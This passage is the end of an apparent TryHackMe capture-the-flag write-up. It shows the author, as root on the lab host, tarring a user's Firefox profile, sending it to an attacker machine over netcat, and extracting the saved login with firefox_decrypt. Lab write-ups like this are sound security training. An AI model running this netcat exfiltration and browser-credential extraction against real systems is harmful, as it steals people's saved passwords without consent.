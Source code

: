 This folder usually contains `firefox` profiles which contains saved credentials inside the browser. Let's compress the folder and download it to our local machine.

```console
root@london:/home/charles# tar -cvf mozilla.tar ./.mozilla/
root@london:/home/charles# nc 10.11.75.248 4545 < mozilla.tar

m3ga@kali:~$ nc -lvnp 4545 > mozilla.tar
m3ga@kali:~$ tar -xvf mozilla.tar
```

`unode` on GitHub has a script which can go through these profiles and extract the credentials.

> [GitHub](https://github.com/unode/firefox_decrypt) - firefox_decrypt
> 
> Firefox Decrypt is a tool to extract passwords from profiles of Mozilla (Fire/Water)fox™, Thunderbird®, SeaMonkey® and derivates. 
> It can be used to recover passwords from a profile protected by a Master Password as long as the latter is known. If a profile is not protected by a Master Password, passwords are displayed without prompt.
{: .prompt-tip}

Running this script on `charles`'s profile, we can successfully extract his password.
```console
m3ga@kali:~$ chmod 777 ./.mozilla -R
m3ga@kali:~$ /opt/firefox_decrypt/firefox_decrypt.py ./.mozilla/firefox/8k3bf3zp.charles 
...

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

## Outro
Many thanks to the creator the room, [Sharib](https://tryhackme.com/p/Sharib).

This was a great room and a good refresher on SSRF for me.

\- m3gakr4nus
